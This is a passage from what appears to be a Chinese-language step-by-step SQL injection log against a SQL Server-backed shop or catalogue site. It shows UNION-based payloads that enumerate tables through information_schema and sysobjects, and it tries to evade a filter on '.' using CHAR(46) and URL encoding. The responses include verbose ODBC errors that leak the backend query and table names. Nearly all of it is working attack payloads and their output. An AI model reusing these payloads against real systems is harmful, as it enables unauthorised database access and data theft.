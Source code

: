 16. `123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))from(information_schema.tables)--`

404

17. `123.123`

看來應該是 `.` 在作怪，所以 `information_schema.tables` 才會失效

18.

```sql
123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))from(information_schema'+CHAR(46)+'tables)--
123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))from(information_schema.tables)--
%31%32%33%27%55%4E%49%4F%4E%28%53%45%4C%45%43%54%27%68%65%6C%6C%6F%31%27%2C%28%32%38%37%29%2C%74%61%62%6C%65%5F%6E%61%6D%65%2C%28%34%38%37%29%2C%27%68%65%6C%6C%6F%35%27%2C%28%36%38%37%29%2C%27%68%65%6C%6C%6F%37%27%2C%28%38%38%37%29%2C%27%68%65%6C%6C%6F%39%27%2C%28%31%30%38%37%29%2C%28%31%31%38%37%29%2C%28%31%32%38%37%29%29%66%72%6F%6D%28%69%6E%66%6F%72%6D%61%74%69%6F%6E%5F%73%63%68%65%6D%61%2E%74%61%62%6C%65%73%29%2D%2D
```

404

```
要求的 URL	   123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))from(information_schema.tables)--
實體路徑	   123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))from(information_schema.tables)--
```

19. `123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))FROM(sysobjects)WHERE(xtype)=('U')--`

Microsoft][ODBC SQL Server Driver][SQL Server]接近關鍵字 'FROM' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')='123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287))FROM(sysobjects)WHERE(xtype)=('U')--' and I.online=1 and I.State in ('1','2')
```

20. `123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287)FROM(sysobjects)WHERE(xtype)=('U'))--`

[Microsoft][ODBC SQL Server Driver][SQL Server]接近 ')' 之處的語法不正確。

```sql
select I.partName,I.Id,I.Name as ItemName,C.Id as ClsId,C.Name as ClsName,CU.Id as ClsUpId,CU.Name as ClsUpName,O.Id as RoomId,O.Name as RoomName,I.ItemColorId,I.MinAmount,I.multipleLimit from Item I Left join Cls C on I.ClsId=C.Id Left join ClsUp CU on C.ClsUpId=CU.Id Left join OnlineRoom O on CU.OnlineRoomId=O.Id WHERE Replace(Replace(Replace(Replace(Replace(I.Name,' ',''),'.',''),'\',''),'/',''),'#','')='123'UNION(SELECT'hello1',(287),table_name,(487),'hello5',(687),'hello7',(887),'hello9',(1087),(1187),(1287)FROM(sysobjects)WHERE(xtype)=('U'))--' and I.online=1 and I.State in ('1','2')
```
